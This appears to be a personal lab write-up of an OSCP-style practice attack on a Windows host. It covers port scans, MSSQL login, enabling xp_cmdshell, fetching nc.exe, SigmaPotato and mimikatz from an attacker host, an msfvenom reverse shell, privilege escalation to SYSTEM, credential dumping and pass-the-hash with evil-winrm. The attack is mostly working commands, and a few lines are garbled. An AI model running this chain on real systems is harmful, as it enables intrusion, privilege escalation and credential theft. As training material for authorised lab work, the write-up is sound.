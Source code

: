 
# rustscan

```
PORT      STATE    SERVICE     REASON
135/tcp   filtered msrpc       no-response
139/tcp   filtered netbios-ssn no-response
49665/tcp filtered unknown     no-response
```

# nmap

sudo nmap -sSV -Pn -T4 10.10.131.148 

```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000
```

```
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.10.131.148:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.10.131.148:1433: 
|     Target_Name: OSCP
|     NetBIOS_Domain_Name: OSCP
|     NetBIOS_Computer_Name: MS02
|     DNS_Domain_Name: oscp.exam
|     DNS_Computer_Name: MS02.oscp.exam
|     DNS_Tree_Name: oscp.exam
|_    Product_Version: 10.0.19041
|_ssl-date: 2024-06-18T12:37:52+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-03-30T04:06:17
|_Not valid after:  2054-03-30T04:06:17
49665/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: MS02, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:ab:52:14 (VMware)
| smb2-time: 
|   date: 2024-06-18T12:37:12
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

# initial

```
impacket-mssqlclient sql_svc@10.10.185.148 -windows-auth
```

got foothold with mssql

enabled xp_cmdshell

```
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURcmdshell', 1; RECONFIGURE;
```

```
EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;
```

to check
```
EXEC master..xp_cmdshell 'whoami'
```

![[Pasted image 20240629161103.png]]
### transfer files

that ms02 don't know who is kali or ms01 because we can ping it, those machine can't

so set reverse listener for that

```to-transfer-files
listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:8000
```

```to-get-reverseshell-from-xp_cmdshell
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444
```

```to-get-sigmapotato-shell
listener_add --addr 0.0.0.0:5555 --to 0.0.0.0:6666
```

![[Pasted image 20240629161012.png]]

left side ports means which we give on victims and right side ports means which we give in our kali

example is, if we want sigmapotato shell, then we give **5555** on MS02 with **MS01 IP** because it is connected to MS02 and MS01 5555 it connected to **KALI's 6666**


start python on `8000`

```
python -m http.server 8000
```


### on xp_cmdshell

make msfvenom payload to get shell back

```
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o ms01.exe LHOST=10.10.185.147 LPORT=1234
```

```
EXEC xp_cmdshell "powershell iwr -uri http://ms01.oscp.exam:1235/nc.exe -outfile C:\Users\Public\Documents\nc.exe";
```

```
EXEC xp_cmdshell "powershell iwr -uri http://ms01.oscp.exam:1235/test.exe -outfile C:\Users\Public\ms01.exe";
```

```
EXEC xp_cmdshell "powershell iwr -uri http://ms01.oscp.exam:1235/SigmaPotato.exe -outfile C:\Users\Public\SigmaPotato.exe";
```

```
EXEC xp_cmdshell "powershell iwr -uri http://ms01.oscp.etfile C:\Users\Public\mimikatz.exe";
```

once we transferred msfvenom payload we can take reverse shell and we can download stuffs from our **kali** from **ms02**

as msfvenom is on **1234 and with ms01 ip** we bind that to 4444 port

![[Pasted image 20240629161637.png]]

![[Pasted image 20240629161627.png]]
### get rev shell

```
EXEC xp_cmdshell "powershell C:\Users\Public\ms01.exe";
```

```
cd ../../Users/Public
```

```download-sigmapotato
powershell iwr -uri http://ms01.oscp.exam:1235/SigmaPotato.exe -outfile C:\Users\Public\SigmaPotato.exe
```

```
powershell iwr -uri http://ms01.oscp.exam:1235/mimikatz.exe -outfile C:\Users\Public\mimikatz.exe
```

![[Pasted image 20240629161916.png]]

```
SigmaPotato.exe --revshell 10.10.185.147 5555
```

Now I am system there

### get creds

```
.\mimikatz.exe privilege::debug "sekurlsa::logonPasswords full" exit
```

```
evil-winrm -i 10.10.131.146 -u administrator -H 59b280ba707d22e3ef0aa587fc29ffe5
```

# Q

![[Pasted image 20240629160411.png]]

![[Pasted image 20240629160424.png]]

![[Pasted image 20240629160436.png]]

